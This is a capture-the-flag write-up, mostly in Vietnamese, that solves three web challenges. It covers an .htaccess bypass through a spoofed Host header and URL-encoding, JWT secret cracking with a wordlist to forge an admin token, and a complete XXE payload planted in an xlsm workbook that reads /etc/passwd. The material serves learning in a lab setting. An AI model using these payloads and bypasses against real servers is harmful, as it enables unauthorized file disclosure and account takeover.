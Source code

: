 ## helicoptering

```
Helicoptering
The two parts of the flag are available at the locations below:

part one
part two
Unfortunately, they are both protected by an .htaccess file:

one/.htaccess
RewriteEngine On
RewriteCond %{HTTP_HOST} !^localhost$
RewriteRule ".*" "-" [F]
    
two/.htaccess
RewriteEngine On
RewriteCond %{THE_REQUEST} flag
RewriteRule ".*" "-" [F]
    
Your job is to bypass these restrictions and view the flag files anyway. Good luck!
```

Đọc 2 file flag trong 2 folder one và two. vấn đề là mỗi folder có 1 file .htaccess. Bypass one bằng cách intercept qua burp và sửa header Host thành localhost. Bypass 2 bằng cách urlencode từ flag (%66lag)

## Treasure Hunt

 ![Treasurehunt](https://github.com/zimap1102/nhatdeptrai/blob/main/ductf2022/Screenshot%202022-09-28%20094235.png)
 1 bài dùng jwt token. cơ bản là login vào với token của admin => flag nằm ở phần treasure.
 dùng hashcode + wordlist rockyou để crack secretkey => onepiece. login và lấy flag.

## dyslexxec

source code: dyslexxec.tar.gz 
 Bài này XXE. flag nằm trong file /etc/passwd. lỗi code ở đoạn 

 ```
 internalNode = root.find(".//{http://schemas.microsoft.com/office/spreadsheetml/2010/11/ac}absPath")
        if internalNode != None:
            prop = {
                "Fieldname":"absPath",
                "Attribute":internalNode.attrib["url"],
                "Value":internalNode.text
            }
        return prop

 ```

 đổi đuôi file của file xlsm sang zip, unzip và tìm absPart. absPart nằm trong workbook.xml. chèn mã XXE vào file này, nén zip lại và đổi lại đuôi file.

 payload 
 ```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<workbook xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships" xmlns:mc="http://schemas.openxmlformats.org/markup-compatibility/2006" mc:Ignorable="x15" xmlns:x15="http://schemas.microsoft.com/office/spreadsheetml/2010/11/main"><fileVersion appName="xl" lastEdited="7" lowestEdited="7" rupBuild="16925"/><workbookPr defaultThemeVersion="164011"/><mc:AlternateContent xmlns:mc="http://schemas.openxmlformats.org/markup-compatibility/2006"><mc:Choice Requires="x15"><x15ac:absPath url="C:\Users\ulikma\Downloads\" xmlns:x15ac="http://schemas.microsoft.com/office/spreadsheetml/2010/11/ac">&xxe;</x15ac:absPath></mc:Choice></mc:AlternateContent><bookViews><workbookView xWindow="0" yWindow="0" windowWidth="19200" windowHeight="6950"/></bookViews><sheets><sheet name="Sheet1" sheetId="1" r:id="rId1"/></sheets><calcPr calcId="171027"/><extLst><ext uri="{140A7094-0E35-4892-8432-C4D2E57EDEB5}" xmlns:x15="http://schemas.microsoft.com/office/spreadsheetml/2010/11/main"><x15:workbookPr chartTrackingRefBase="1"/></ext></extLst></workbook>
 ```
